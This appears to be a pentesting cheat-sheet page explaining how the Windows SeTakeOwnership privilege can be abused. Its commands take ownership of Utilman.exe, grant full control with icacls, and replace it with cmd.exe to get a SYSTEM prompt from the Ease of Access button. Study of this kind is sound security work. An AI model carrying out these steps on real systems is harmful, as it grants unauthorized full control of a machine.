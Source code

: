 ```yaml
---
description: >-
  The SeTakeOwnership privilege allows a user to take ownership of any object on
  the system, including files and registry keys, opening up many possibilities
  for an attacker to elevate privileges..
---
```


# SeTakeOwnership

Assumption: RDP connection.&#x20;

1. Open a command prompt using the "Open as administrator" option.
2. Check the privilege - whoami /priv&#x20;
3. Run the commands.&#x20;

```bash
CMD> takeown /f C:\Windows\System32\Utilman.exe
CMD> icacls C:\Windows\System32\Utilman.exe /grant <username>:F
CMD> copy cmd.exe utilman.exe
```

4. Proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>
